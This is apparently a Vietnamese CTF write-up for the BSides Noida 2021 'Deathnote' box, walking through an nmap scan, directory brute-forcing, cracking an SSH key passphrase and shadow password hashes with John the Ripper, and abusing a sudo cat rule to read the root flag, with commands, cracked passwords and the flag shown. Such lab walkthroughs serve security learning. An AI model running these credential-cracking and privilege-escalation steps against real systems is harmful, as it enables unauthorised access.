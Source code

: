 ```yaml
---
title : "[Writeup] BSides Noida CTF 2021 - Deathnote"
author : "F4c3l3ss_"
date : 2021-08-08
tags : ["forensics","writeup","BSides"]
categories: [Writeup, BSides Noida CTF 2021]
---
```


Bài này cho chúng ta 1 vuln box trên tryhackme và nhiệm vụ là phải cat được flag trong root folder.

Đầu tiên, mình dùng nmap để xem các port đang mở trên box này.
```bash
$ nmap -vv -sV -sT -sC 10.10.164.150

Nmap scan report for 10.10.164.150
Host is up, received syn-ack (0.38s latency).
Scanned at 2021-08-08 17:01:46 +07 for 70s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            49 Aug 01 05:41 info.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.25.179
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:c4:7a:64:fc:07:9f:c7:1c:a1:6e:f2:3c:57:b3:89 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQ+N9q4k+biVq4CGIWzpEtEPRDO/unGV2snbUl1hT1+JIo7mPL53HQCXgLfcL+9ERgGlusCHX2C2E/0XFdpTVzJgvgwXphvBjL7E20hprdVxGdZREeN46e7VgopcMC9uajiOW82JM0jdg2nqc0GGU5G4sKOo8/pXBFySI80TrXnffLzK4CWpMRnxPqFf6DGG7kwq8MDRdY1hZR/4yPZWpqklUSXOTX71/uqZbvUze2z234No9+nEl3R/fbeU6cKyZ9jzVrPZAlBHrfYCnZKBnjjODsAAW5q61omK/uRbsST1ZEmKnvRSd2VEfs+ZrPTNhu54jBOFc6crLbYPukDOpB
|   256 1d:a4:c9:b6:3d:4c:e7:61:d7:7a:e0:d2:f5:fb:84:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCNpTWvYwESpI0LH38YBg53wz0AGJNsxmqBAVSTNjJePODVLShMHunBSYZYbQf0lyoJ50lWItH4w9R0Bh9sOxSY=
|   256 43:c8:92:9b:02:4f:4f:e7:6a:38:9a:83:32:50:25:69 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJjZEe7mwBDbmCiOXQ8mMWt3WyKXXBd8iBDVodpUWE1t
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: BSidesNoida2021
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ta thấy rằng box đang mở dịch vụ ftp ở port 21 và không có cơ chế xác thực, port 22 chạy dịch vụ ssh, và port 80 chạy http.

Mình thử truy cập port 21 để xem có lấy được file gì không thì chỉ nhận được 1 file `info.txt` không có thông tin gì.

```bash
$ cat info.txt 
you know how to find secret files :P
Have Fun :)
```

Tiếp đến dịch vụ HTTP, chỉ là một trang web bình thường, viewsource thì tác giả có hint bằng dòng comment: `<!-- Don't touch my s3cr3t file-->`. Vậy thì làm thế nào để get được file s3cr3t này? Trong mục miêu tả của box tác giả cung cấp cho ta một file wordlist.txt nên mình tải về và dò tìm xem các URI khác của box bằng `gobuster`.

```bash
$ gobuster dir -w wordlist.txt -u 10.10.164.150                                                                                                 1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.164.150
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 4173]
/s3cr3t               (Status: 200) [Size: 63]  
/ryuk.apples          (Status: 200) [Size: 1766]
/robots.txt           (Status: 200) [Size: 17]  
/robots.txt           (Status: 200) [Size: 17]  
/server-status        (Status: 403) [Size: 278] 
```

Truy cập trang `ryuk.apples` cho ta một file private key dùng cho việc kết nối SSH và đã encrypt, việc cần làm là phải cần dò passphase cho file pem này để thực hiện kết nối SSH.

```bash
$ wget https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
$ python ssh2john.py ryuk.apples > pem.hash
$ john --wordlist=wordlist.txt pem.hash                                                                                                      130 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
l1ght1skir4      (ryuk.apples)
1g 0:00:00:00 DONE (2021-08-08 17:15) 100.0g/s 461400p/s 461400c/s 461400C/s zone..zt
Session completed
```

Sau khi có được passphase mình thật sự không biết username để truy cập là gì, cũng nhờ đứa em wibu nó thông não ryuk là thần chết trong deathnote tương tự như tên đề bài. Đoạn passphase cho file SSH cũng là password login cho user ryuk.

Nhưng trên box thì user ryuk không có quá nhiều thông tin cũng như không thuộc group sudo và không có ứng dụng nào thực thi dưới quyền sudo cho user. Một mặt, tác giả cho ta 2 file passwd và shadow trên thư mục của home của ryuk nên mình ngó thử xem sao.
```bash
$ cat /etc/passwd       
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:111:117::/nonexistent:/bin/false
kernoops:x:112:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:113:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:114:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:115:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:116:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:117:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:118:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:119:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:120:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
mrgrep:x:1000:1000:BSidesNoida,,,:/home/mrgrep:/bin/bash
ftp:x:121:127:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ryuk:x:1001:1001::/home/ryuk:/bin/sh
sshd:x:122:65534::/run/sshd:/usr/sbin/nologin
light:x:1002:1002::/home/light:/bin/sh
```

Chú ý đến user light, có thể sẽ có gì đó hay ho cho user này để mình leo lên quyền root. Từ file shadow, passwd đã cho, mình hoàn toàn có thể lấy được password của user light.

```bash
$ unshadow passwd shadow > pass
$ john --wordlist=wordlist.txt pass                                                                                                             1 ⨯
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
MrBS1d3sGrepN0ida@!1337 (light)
l1ght1skir4      (ryuk)
Warning: Only 6 candidates left, minimum 8 needed for performance.
2g 0:00:00:05 DONE (2021-08-08 11:17) 0.3539g/s 816.6p/s 2040c/s 2040C/s zone..zt
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Sau khi SSH của user light, mình thử `sudo -l` để xem có lệnh nào có thể sử dụng để leo lên root được không.
```bash
$ sudo -l
Matching Defaults entries for light on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User light may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Oh well ✪ ω ✪
```bash
$ sudo cat /root/root.txt
BSNoida{Pr1vEsc_w4a_E4sy_P3a5y}
```

Cheer (☞ﾟヮﾟ)☞ ☜(ﾟヮﾟ☜)

